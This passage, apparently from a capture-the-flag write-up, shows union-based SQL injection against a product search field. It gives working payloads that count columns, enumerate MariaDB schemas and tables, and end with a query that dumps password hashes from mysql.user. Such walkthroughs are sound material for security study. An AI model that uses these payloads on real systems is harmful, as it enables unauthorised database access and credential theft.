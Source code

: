 ```

<td>No Products Found</td><td> </td><td> </td><td> </td><td> </td>

```

#### Find Number of Columns

Next I’ll try to do a union injection, and I’ll need to figure out how many columns are returned. I’ll start with `productName=Asus' union select 1#`, and it returns:

```

Error: SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of column

```

Very nice / sloppy to leave the error messages in. I’ll add columns to my select until I get to `productName=Asus' UNION select 1,2,3,4,5,6#`, when it returns:

```

<tr><td>1</td><td>2</td><td>3</td><td>4</td><td>5</td><td>6</td></tr>

```

#### Enumerate

Now I’ll start to pull information out of this database. I like the [Pentest Monkey MySQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) as a starting reference. I’ll get the version, current user, and current database with ` Result productName=Asus’ UNION select @@version,user(),database(),4,5,6#`:

```

<tr><td>10.4.8-MariaDB</td><td>manager@localhost</td><td>warehouse</td><td>4</td><td>5</td><td>6</td></tr>

```

I can list the databases with `productName=Asus' union select schema_name,2,3,4,5,6 from information_schema.schemata#` to see three dbs:
- information\_schema
- mysql
- warehouse

Since warehouse is the only non-default database, I’ll look at it’s tables with `productName=Asus' union select table_schema,table_name,3,4,5,6 from information_schema.tables where table_schema != 'mysql' AND table_schema != 'information_schema'#` (I’ll hit Render in Burp to see it as a nicely formatted table):

![image-20191125060219458](https://0xdfimages.gitlab.io/img/image-20191125060219458.png)

I did a bit more digging, but nothing interesting in those tables.

I can grab the internal password hashes with `productName=Asus' UNION select host,user,password,4,5,6 from mysql.user#`:
